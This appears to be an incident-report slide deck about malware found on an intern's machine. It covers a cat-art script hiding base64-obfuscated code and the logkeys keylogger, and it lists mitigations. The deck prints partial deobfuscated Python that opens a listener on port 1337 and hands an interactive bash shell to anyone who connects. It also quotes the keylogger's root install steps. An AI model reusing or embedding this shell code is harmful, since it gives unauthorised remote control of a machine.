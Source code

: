 ```yaml
---
title: "Malware on the Intern's Machine"
format:
    revealjs:
        incremental: false
        theme: dark
        #center: true
execute:
  freeze: false
---
```


# Overview

* `cute_cat_ascii_art_generator.py`
    * Reverse shell
* logkeys
    * Linux keylogger


# Reverse Shell

```
# Our special kitty code (it makes the CUTEST kitties in the background!)
kitty_code = "omited for brevity""
kitty_recipe = base64.b64decode(kitty_code).decode('utf-8')
```

Decodes base64 obfuscated code, saves it to a file.

# Reverse Shell (cont.)

Base64 code, deobfuscated. Much of it is ommitted for brevity.

```
def main():
    # Create the socket
    server = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    server.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)

    # Bind to all interfaces on port 1337
    try:
        server.bind(('0.0.0.0', 1337))
        server.listen(5)

    # Main loop to accept connections
    while True:
        try:
            client, addr = server.accept()

            # Send the splash text
            client.send(splash.encode() + b'\n')

            # Start a shell for the client
            process = subprocess.Popen(
                ["/bin/bash", "-i"],
                stdin=client,
                stdout=client,
                stderr=client
            )
```

# Reverse Shell Impact/Mitigations
* Was not running
* Software was deleted

# Keylogger

* <https://github.com/kernc/logkeys>
* Simple Linux Keylogger
* git repository (and zipped version) was found in the home dir

# Keylogger Impact/Mitigations

* Service was stopped and the software was removed
* Was active and logging to /var/log
* No data was exfiltrated
* Intern user no longer has privilege escalation permissions

# Keylogger Install

From the [logkeys install instructions](https://github.com/kernc/logkeys/blob/master/INSTALL)

```
$ make
$ su               # get root to install in system
$ make install     # installs binaries, manuals and scripts
```

* Root is required
* Intern user had root access, and these commands were in there history